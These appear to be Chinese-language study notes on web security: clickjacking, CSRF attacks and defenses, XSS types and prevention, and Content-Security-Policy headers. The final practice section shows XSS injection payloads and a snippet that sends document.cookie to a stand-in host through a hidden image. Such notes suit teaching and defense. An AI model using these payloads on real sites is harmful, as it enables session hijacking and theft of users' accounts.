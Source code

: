 # web安全

## 点击劫持

原理：攻击者使用透明的iframe覆盖在网页上，诱使用户在点击，
1. flash点击劫持：用过flash游戏，让用户完成一系列复杂的操作
2. 图片覆盖攻击Cross Site Image Overlaying（XSIO）：

## [CSFR](https://www.ibm.com/developerworks/cn/web/1102_niugang_csrf/)

### 概念

- 在受骗者已经登录对应网站生成cookie后，攻击者做一个网站让受骗者点击，这时受骗者的cookie还在，那么这个构造的网站就能够利用受骗者的cookie执行网站恶意请求
- CSRF 攻击是黑客借助受害者的 cookie 骗取服务器的信任，但是黑客并不能拿到 cookie，也看不到 cookie 的内容
### 特点
1. 发生在第三方域名
2. 不能获取到cookie只是借用（在请求参数中加上cookie并让服务器验证），但是跨域请求拿不到cookie

### 攻击方式
由于AJAX是不支持跨域发送请求的，所以我们只能够用支持跨域请求的img、script、form表单来发起请求，这些请求的限制性很强
1. 通过img\iframe\script发起get请求
    - 由于get请求只能获取信息，不会修改数据库中信息，所以一般get请求伪造的影响较小。
2. 通过js提交form表单发起post请求
    - post请求一般是通过表单发送，而表单请求不能修改请求头，也不能带上query，所以这就是token防止csrf的原因

### [防护](https://zhuanlan.zhihu.com/p/40588156)
- referer check

- 验证码

- anti csfr token（普遍做法）

- **验证 HTTP Referer 字段；在请求地址中添加 token 并验证；在 HTTP 头中自定义属性并验证**

- 同源检测防护
  1. origin（没有path和query）
     - 在IE同源定义不一致
     - 302重定向
     2 referer check（请求的来源地址）
    - 可以被修改
- csfr `Token`
    在会话中存储CSRF Token比较繁琐，而且不能在通用的拦截上统一处理所有的接口
  
- `验证码`和密码
  确认是用户自身的行为

- 双重cookie验证，生成一个随机cookie并且在请求时附带在url里面，后端就可以验证

- cookie设置samesite属性、如果SamesiteCookie被设置为Strict，浏览器在任何跨域请求中都不会携带Cookie

## [XSS：跨站脚本攻击](https://www.freebuf.com/articles/web/185654.html)

[XSS](https://juejin.im/post/5bad9140e51d450e935c6d64#heading-13)

HTMl注入插入恶意脚本，篡改网页，在用户浏览网页时，控制用户浏览器的一种攻击，一开始的演示案例是跨域的。
  1. 攻击者提交恶意代码。
  2. 浏览器执行恶意代码。


### 分类：
1. 存储型XSS：也叫持久性XSS，恶意代码提交到`服务器端`中，`服务端`拼接html返回，再在前端解析执行。常见于评论、私信、发博客。所有查看了该博客该评论的用户，都会执行这段恶意脚本
2. **反射性**XSS：也叫非持久性XSS，输入恶意代码，通过`URL`提交执行，`服务端`取出恶意代码，拼接在html时返回，浏览器请求再执行恶意代码。
3. Dom型XSS：`前端`取出`URL`中的恶意代码执行，通过修改页面的dom节点形成的XSS，称为dom based XSS。

### 攻击方式
- 在 HTML 中内嵌的文本中，恶意内容以 script 标签形成注入。
- 在内联的 JavaScript 中，拼接的数据突破了原本的限制（字符串，变量，方法名等）。
- 在标签属性中，恶意内容包含引号，从而突破属性值的限制，注入其他属性或者标签。
- 在标签的 href、src 等属性中，包含 javascript: 等可执行代码。
- 在 onload、onerror、onclick 等事件中，注入不受控制代码。
- 在 style 属性和标签中，包含类似 background-image:url("javascript:…"); 的代码（新版本浏览器已经可以防范）。
- 在 style 属性和标签中，包含类似 expression(…) 的 CSS 表达式代码（新版本浏览器已经可以防范）。
### 危害
1. document.cookie获取cookie实现cookie劫持，可以通过绑定IP防御
2. 通过动态插入img，在src赋值上构造get请求构造get请求
3. 通过动态添加post请求的form标签，构造post请求
4. 也可以直接通过ajax请求发送构造请求
### 预防
1. 设置httponly缓解xss，可以通过trace请求读取httponly cookie反
2. 输入检查，输出检查
3. 输入过滤（输入侧过滤能够在某些情况下解决特定的 XSS 问题，但会引入很大的不确定性和乱码问题。在防范 XSS 攻击时应避免此类方法。）
4. 预防存储型和反射型 XSS 攻击：改成纯前端渲染、充分转义
5. 预防 DOM 型 XSS 攻击：避免使用DOM 中的内联事件监听器，
6. 使用CSP



##  [CSP（Content Security Policy）内容安全策略检查](http://www.ruanyifeng.com/blog/2016/09/csp.html)

   - "网页安全政策"，  CSP 的实质就是白名单制度，开发者明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单

   - 如果只允许加载自己域的图片，可以 加上这个meta标签`<meta http-equiv="Content-Security-Policy" content="img-src 'self';">`  

   - `Content-Security-Policy: script-src 'self'`

   - `Content-Security-Policy: default-src 'self'`

   - 或者后端设置这个http响应头，self表示本域，如果加载其他域的图片浏览器会报错

   - ![image](https://pic4.zhimg.com/v2-bf28b28cd47bbab12b052811d52a1223_b.jpg)

   - ```http
     Content-Security-Policy: script-src 'self'; object-src 'none';
     style-src cdn.example.org third-party.org; child-src https:
     ```

     - 脚本：只信任当前域名
     - `<object>`标签：不信任任何URL，即不加载任何资源
     - 样式表：只信任`cdn.example.org`和`third-party.org`
     - 框架（frame）：必须使用HTTPS协议加载
     - 其他资源：没有限制

     参考：[前端安全配置之Content-Security-Policy(csp)](https://www.cnblogs.com/heyuqing/p/6215761.html)

### **referer**

在以下两种情况下，Referer 不会被发送：
    来源页面采用的协议为表示本地文件的 "file" 或者 "data" URI；
    当前请求页面采用的是非安全协议，而来源页面采用的是安全协议（HTTPS）。    

### XSS实践

页面中插入链接点击会执行

```
<a href="javascript:alert(localStorage)">跳转</a>

<a href="http://xxx/search?keyword="><script>alert('XSS');</script>"></a>
=>拼接后
<input type="text" value=""><script>alert('XSS');</script>">
```

发送cookie给对应站点

```
  var img = document.createElement('img')
  img.src='http://www.xss.com?cookie=' + document.cookie
  img.style.display='none'
  document.getElementsByTagName('body')[0].appendChild(img)
```

